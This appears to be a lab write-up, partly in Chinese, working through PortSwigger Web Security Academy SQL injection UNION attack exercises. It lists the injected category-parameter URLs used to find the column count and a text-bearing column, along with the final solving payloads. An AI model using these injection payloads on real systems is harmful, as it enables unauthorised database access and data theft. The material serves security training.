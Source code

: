 #### /filter?category=Accessories'+UNION+SELECT+NULL--
![image](https://hackmd.io/_uploads/ByecaoftT.png)
> 塞入column NULL數量

#### /filter?category=Accessories%27+UNION+SELECT+NULL,NULL--
![image](https://hackmd.io/_uploads/r1xWAjzYT.png)
> 繼續塞入NULL

### Solved
#### /filter?category=Accessories%27+UNION+SELECT+NULL,NULL,NULL--
![image](https://hackmd.io/_uploads/Sy_4RozFT.png)
![image](https://hackmd.io/_uploads/r1nPCoftT.png)

## Lab: SQL injection UNION attack, finding a column containing text
![image](https://hackmd.io/_uploads/rkTiAoGKa.png)
https://0a70000504d85146816858c800a300d0.web-security-academy.net/
![image](https://hackmd.io/_uploads/BkE0AsMFp.png)

### Solution
> [!NOTE]
> :brain: 思考邏輯:\
>題目建議使用 UNION attack 來回傳row containing the value provided。所以使用上題技巧，先確認塞入 NULL 回應500，繼續增加空值，直到Error 消失。確認存在三個row後，依序將值塞入三個column，跳出Make the database retrieve the string: '7ztQnM'提示。

#### /filter?category=Gifts%27+UNION+SELECT+NULL--
> Internal Server Error
#### /filter?category=Gifts%27+UNION+SELECT+NULL,NULL--
> Internal Server Error
#### /filter?category=Gifts%27+UNION+SELECT+NULL,NULL,NULL--
![image](https://hackmd.io/_uploads/SJ-hJnfFp.png)
> 成功，接著將值塞入NULL 測試

#### /filter?category=Gifts%27+UNION+SELECT+'chw',NULL,NULL--
> Internal Server Error
#### /filter?category=Gifts%27+UNION+SELECT+NULL,'chw',NULL--
![image](https://hackmd.io/_uploads/B1mLx3zF6.png)
> 得知第二個column存在value
### Solved
#### /filter?category=Gifts/filter?category=Gifts%27+UNION+SELECT+NULL,%277ztQnM%27,NULL--
![image](https://hackmd.io/_uploads/rkB1WhGKp.png)
![image](https://hackmd.io/_uploads/HJ7l-2fYp.png)
